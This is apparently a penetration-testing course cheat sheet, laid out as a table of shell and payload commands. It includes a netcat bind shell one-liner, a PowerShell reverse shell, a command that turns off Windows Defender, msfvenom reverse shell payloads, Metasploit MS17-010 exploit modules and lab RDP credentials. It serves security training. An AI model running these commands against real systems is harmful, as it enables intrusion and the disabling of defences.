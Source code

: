 
| Command                                                                                             | Description                                                                                                                                                                                              |
| --------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!`                                       | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol                                                                                                                     |
| `env`                                                                                               | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use                              |
| `sudo nc -lvnp <port #>`                                                                            | Starts a netcat listener on a specified port                                                                                                                                                             |
| `nc -nv <ip address><port>`                                                                         | Connects to a netcat listener at the specified IP address and port                                                                                                                                       |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \| /bin/bash -i 2>&1 \| nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell (/bin/bash) to the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on |
| `powershell -nop -c "..."`                                                                          | Powershell one-liner used to connect back to a listener that has been started on an attack box                                                                                                           |
| `Set-MpPreference -DisableRealtimeMonitoring $true`                                                 | Powershell command used to disable real-time monitoring in Windows Defender                                                                                                                              |
| `use exploit/windows/smb/psexec`                                                                    | Metasploit exploit module that can be used on vulnerable Windows systems to establish a shell session utilizing SMB & PsExec                                                                             |
| `shell`                                                                                             | Command used in a meterpreter shell session to drop into a system shell                                                                                                                                  |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=...`                                                 | MSFvenom command used to generate a Linux-based reverse shell stageless payload                                                                                                                          |
| `msfvenom -p windows/shell_reverse_tcp LHOST=...`                                                   | MSFvenom command used to generate a Windows-based reverse shell stageless payload                                                                                                                        |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=...`                                                   | MSFvenom command used to generate a MacOS-based reverse shell payload                                                                                                                                    |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=...`                                             | MSFvenom command used to generate an ASP web reverse shell payload                                                                                                                                       |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=...`                                                  | MSFvenom command used to generate a JSP web reverse shell payload                                                                                                                                        |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=...`                                                  | MSFvenom command used to generate a WAR java/JSP compatible web reverse shell payload                                                                                                                    |
| `use auxiliary/scanner/smb/smb_ms17_010`                                                            | Metasploit exploit module used to check if a host is vulnerable to MS17-010                                                                                                                              |
| `use exploit/windows/smb/ms17_010_psexec`                                                           | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to MS17-010                                                                                  |